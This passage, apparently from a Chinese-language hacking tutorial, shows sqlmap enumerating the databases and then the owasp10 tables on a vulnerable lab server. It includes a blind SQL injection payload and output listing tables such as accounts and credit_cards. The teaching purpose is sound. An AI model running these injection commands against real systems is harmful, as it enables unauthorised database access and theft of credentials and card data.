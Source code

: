 在 shell 中，输入 `--dbs`。这将列出系统中的所有数据库：

```
   sqlmap-shell> --dbs

   [16:16:04] [INFO] testing connection to the target URL
➊ you have not declared cookie(s), while server wants to set its own ('PHPSESSID

			 =724251ceeec...19e0ca7aeb'). Do you want to use those [Y/n] :Y

   ...

   Parameter: username (GET)

       Type: boolean-based blind

       Title: OR boolean-based blind - WHERE or HAVING clause (NOT - MySQL

			 comment)

    ➋ Payload: page=user-info.php&username='OR NOT 6675=6675#&password=&user-

			 info-php-submit-button=View Account Details

   ...

   [16:16:06] [INFO] fetching database names
➌ available databases [7]:

   [*] dvwa

   [*] information_schema

   [*] metasploit

   [*] mysql
➍ [*] owasp10

   [*] tikiwiki

   [*] tikiwiki195
```

`SQLmap` 首先连接到服务器并获取一个新的 cookie ➊。然后，它使用负载 `' OR NOT 6675=6675#` ➋ 来测试查询字符串参数是否存在 SQL 注入漏洞。这里，`#` 将 SQL 查询的其余部分注释掉。最后，`SQLmap` 注入一个查询，返回服务器上所有数据库的列表 ➌。你可以看到有七个数据库。

现在我们知道该数据库服务器托管着多个数据库。让我们专注于探索我们一直在攻击的 owasp10 数据库➍。运行以下命令列出该数据库的所有表格。`-D` 标志让你选择一个特定的数据库，`--tables` 列出该数据库的所有表格：

```
sqlmap-shell> -D owasp10 --tables

[17:02:24] [INFO] fetching tables for database: 'owasp10'
Database: owasp10

[6 tables]

+----------------+

| accounts       |

| blogs_table    |

| captured_data  |

| credit_cards   |
```